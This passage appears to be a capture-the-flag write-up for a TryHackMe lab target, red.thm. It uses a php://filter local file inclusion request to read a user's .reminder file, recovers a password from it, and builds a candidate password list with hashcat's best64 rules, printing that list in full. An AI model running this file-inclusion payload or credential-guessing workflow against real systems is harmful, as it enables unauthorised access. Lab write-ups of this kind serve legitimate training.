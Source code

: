 ```abap
echo "Red rules"
cd
hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
cat passlist.txt
rm passlist.txt
sudo apt-get remove hashcat -y
```

Checking out the `.bash_history` of blue, we see that a pass list was generated with the file `.reminder` as the base and the `best64.rule` ruleset by using Hashcat

```abap
curl http://red.thm/index.php?page=php://filter/resource=/home/blue/.reminder
```

Now we got a password!

```abap
sup3r_p@s$w0rd!
```

But now we have to use the same Hashcat command above to generate a password list to get into blues account

```abap
echo "sup3r_p@s$w0rd!" > password.txt

hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
#### If you are using THM attack box use this ####
hashcat --stdout password.txt -r /opt/hashcat/rules/best64.rule > passlist.txt 
```

this is the `passlist.txt`

```abap
sup3r_p@s$w0rd!
!dr0w$s@p_r3pus
SUP3R_P@S$W0RD!
Sup3r_p@s$w0rd!
sup3r_p@s$w0rd!0
sup3r_p@s$w0rd!1
sup3r_p@s$w0rd!2
sup3r_p@s$w0rd!3
sup3r_p@s$w0rd!4
sup3r_p@s$w0rd!5
sup3r_p@s$w0rd!6
sup3r_p@s$w0rd!7
sup3r_p@s$w0rd!8
sup3r_p@s$w0rd!9
sup3r_p@s$w0rd!00
sup3r_p@s$w0rd!01
sup3r_p@s$w0rd!02
sup3r_p@s$w0rd!11
sup3r_p@s$w0rd!12
sup3r_p@s$w0rd!13
sup3r_p@s$w0rd!21
sup3r_p@s$w0rd!22
sup3r_p@s$w0rd!23
sup3r_p@s$w0rd!69
sup3r_p@s$w0rd!77
sup3r_p@s$w0rd!88
sup3r_p@s$w0rd!99
sup3r_p@s$w0rd!123
sup3r_p@s$w0rd!e
sup3r_p@s$w0rd!s
sup3r_p@s$w0rda
sup3r_p@s$w0rs
sup3r_p@s$w0ra
```